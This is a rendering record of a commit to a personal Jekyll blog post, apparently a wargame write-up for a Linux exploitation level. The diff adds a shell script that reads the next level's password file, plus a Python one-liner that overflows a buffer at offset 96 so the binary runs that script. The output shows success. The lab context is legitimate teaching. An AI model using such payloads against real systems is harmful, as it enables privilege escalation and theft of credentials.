

Before and after one commit to KevinCarroll7737/kevincarroll7737.github.io, a Jekyll site: the page built from _posts/2019-08-14-R0-Pwnage-Linux-level2.markdown, in a window 1280 px wide and 900 px high, scrolled down 2687 px. Shown: the whole window, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Updated R0 pwnage linux level2 again

````diff
--- a/_posts/2019-08-14-R0-Pwnage-Linux-level2.markdown
+++ b/_posts/2019-08-14-R0-Pwnage-Linux-level2.markdown
@@ -147,7 +147,16 @@ cyclic_find(0x61616179)
 96
 ```
 
+`cat /tmp/srbx7.sh`
+
 ```bash
+#!/bin/bash
+whoami
+cat /home/level3/.pass
+```
+
+```bash
+level2@lxc-pwn-x86:/levels$ chmod +x /tmp/srbx7.sh
 level2@lxc-pwn-x86:/levels$ python -c 'print "nobody\nKsdkjkk32avsh\n" + "/tmp/srbx7.sh\x00" + "\x90" * (96-len("/tmp/srbx7.sh0")) + "root\x00"'| ./level2
 Username: Password: Command: Good job!
 level3
````
